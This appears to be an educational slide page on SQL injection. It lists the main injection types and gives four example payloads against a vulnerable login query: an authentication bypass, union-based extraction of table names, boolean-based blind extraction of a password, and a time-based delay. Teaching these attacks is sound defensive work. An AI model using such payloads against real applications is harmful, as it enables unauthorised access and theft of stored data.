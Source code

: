 <div class="grid grid-cols-2 gap-6">

<div>

## 💉 Understanding SQL Injection

### 🎯 SQL Injection Types
```yaml
Classic SQL Injection:
  Union-based:
    - UNION SELECT statements
    - Data extraction from multiple tables
    - Column number enumeration
    - Database structure discovery
  
  Boolean-based Blind:
    - True/false response analysis
    - Character-by-character extraction
    - Time-intensive process
    - Conditional queries
  
  Time-based Blind:
    - Response time analysis
    - Sleep/delay functions
    - Conditional time delays
    - No direct output required
  
  Error-based:
    - Database error messages
    - Information disclosure
    - Error message analysis
    - Database fingerprinting
  
Second-Order Injection:
  - Stored malicious input
  - Later execution context
  - Harder to detect
  - Persistence required
```

### 💻 SQL Injection Examples
```sql
-- Original vulnerable query
SELECT * FROM users WHERE username = '$username' AND password = '$password'

-- Attack 1: Authentication bypass
username: admin' --
password: anything
-- Result: SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything'

-- Attack 2: Union-based data extraction  
username: ' UNION SELECT table_name,NULL,NULL FROM information_schema.tables --
password: anything
-- Result: Extracts all table names

-- Attack 3: Boolean-based blind injection
username: admin' AND (SELECT SUBSTR(password,1,1) FROM users WHERE username='admin')='a' --
-- Result: Tests if first character of admin password is 'a'

-- Attack 4: Time-based blind injection
username: admin' AND IF((SELECT COUNT(*) FROM users)>5, SLEEP(5), 0) --
-- Result: Delays response by 5 seconds if user count > 5

```